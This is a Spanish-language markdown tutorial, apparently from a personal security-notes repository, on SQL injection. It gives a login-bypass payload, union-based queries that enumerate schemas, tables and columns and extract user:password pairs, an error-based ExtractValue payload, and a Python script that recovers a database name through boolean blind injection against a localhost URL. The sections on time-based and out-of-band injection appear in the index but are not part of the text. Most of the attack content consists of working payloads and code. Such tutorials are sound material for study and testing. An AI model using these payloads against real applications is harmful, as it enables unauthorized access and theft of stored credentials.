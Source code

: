 ## SQL Injection

### Indice
- [Tipos y funcionamiento general](#como)
- #### IN BAND
  *   [Union-Based](#union)
  *   [Error-Based](#error)
- #### BLIND
  *   [Boolean](#boolean)
  *   [Time](#tine)
- #### OUT OF BAND
  *   [Out of band](#out)
- <a href="https://deephacking.tech/sql-injection/">Mas info</a>








<a name="como"></a>
## Tipos y funcionamiento
Tenemos 3 tipos:
* IN BAND
  Es la que vemos la respuesta de la base de datos en la respuesta del servidor. Es la mas sencilla de todas. tendriamos de tipo UNION y ERROR.

* BLIND
  No veriamos la respuesta de la base de datos en ninguna respuesta del servidor, y tendriamos de tipo BOOLEAN y tipo TIME

* OUT OF BAND

### Ejemplo de funcionamiento inyección SQL
para realizar una inyeccion, debemos romper la query. por ejemplo en un formulario de usuario y contraseña en una web:  

en email ponemos el email, y en contraseña una contraseña  

la query "oficial" seria algo así:  

```
SELECT email,pass WHERE email = "emailintroducido" AND pass ="passintroducida";
```
para romper esa query, lo que hacemos es introducir una ' en el campo email o contraseña, seguida de la inyección y un comentario, quedaria así:  

email: eddy@gmail.com' comando de la inyeccion-- -  

pass: contraseña123  

ejemplo tipico de inyección por ejemplo en un formulario web:  
```
email: eddy@gmail.com' OR 1=1-- -
pass: contraseña123
```
y lo que haría realmente por detrás es:  
```
SELECT email,pass WHERE email = "eddy@gmail.com" OR 1=1 AND pass ="contraseña123";
```
con lo cual la lógica de base de datos, diría que si el email está contenido en la base de datos o 1 es igual a 1, cosa que siempre se cumple. iniciaremos sesión con el primer usuario de la tabla.











## IN BAND

<a name="union"></a>
### Union-Based
Hay que tener en cuenta que cuando realizamos la instruccion UNION entre dos SELECT, ambos select deben tener el mismo numero de columnas. asi que lo primero es determinar el numero de columnas de la query que esta corriendo en el servidor.  
se puede hacer con un order by, ejemplo:  

empezamos con un order by 1, luego con un order by 2, y asi hasta que de error. cuando de error por ejemplo en el order by 4, pues sabemos que hay 3 columnas. 
```
' ORDER BY 1
' ORDER BY 2
' ORDER BY 3
' ...
```
Una vez determinado la cantidad de columnas de la query, vamos a investigar en la base de datos:  

suponiendo que tiene 3 columnas, ejecutamos la siguiente sentencia:  
```
'UNION SELECT schema_name, null,null FROM information_schema.schemata-- -
```
suponemos que encontramos las siguentes bases de datos:
* information_schema
* perfomance_schema
* mysql
* webserver

ahora vamos a indagar en webserver:  
```
'UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema="webserver"-- -
```
suponemos que encontramos las siguientes tablas:  

* users
* books
* images
vamos a indagar en users:
```
'UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name="users" and table_schema="webserver"-- -
```

y vemos que tiene las columnas:
* id
* user
* password
ahora para extraer esos datos es tan sencillo como:
```
'UNION SELECT CONCAT(user,0x3a,password),null,null FROM users WHERE table_schema="webserver"-- - 
```
APUNTES:  

- el concat no es siempre necesario
- 0x3a en hexadecimal significa los dos puntos ":"
- el where no deberia ser necesario en caso de usuarios y claves xq ya la web está preparada para consultar en esa base de datos





<a name="error"></a>
### Error-Based
 Este tipo de SQL Injection consiste en ocasionar a propósito un error en el servidor, de tal forma, que en esta respuesta, consigamos resultados de la base de datos.  
```
' AND ExtractValue(”,Concat(‘=’,(<SENTENCIA SQL>)))-- -
```

En la parte de SENTENCIA SQL, pondríamos las sentencias que quisieramos ejecutar.  

## BLIND

<a name="boolean"></a>
### Boolean
En este tipo de injecciones no vemos el resultado de la consulta en la propia respuesta del servidor. Para poder realizar la consulta, requeriremos del siguiente script en python3, donde deberiamos modificar la URL y la sentencia:  
```
#!/usr/bin/python3

import requests
import sys

mayusc = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
minusc = mayusc.lower()
numbers = '1234567890'
simbols = '|@#~!"·$%&/()=:.-_,; <>[]{}?\r\n'

dictionary = minusc + mayusc + numbers + simbols

def booleanSQL():

        global info
        info = ''

        for i in range(1,100):

                stop = False

                for j in dictionary:

                        response = requests.get("http://localhost/books.php?id=1 AND SUBSTR(database(), %d, 1)='%s'#" % (i, j))

                        if 'La peticion se ha realizado' in response.text:

                                print("La letra numero %d es %s" % (i, j))

                                info += j

                                stop = False

                                break

                        stop = True

                if stop:
                        break

if __name__ == '__main__':

        booleanSQL()

        print("\nLa base de datos se llama %s" % info)
```
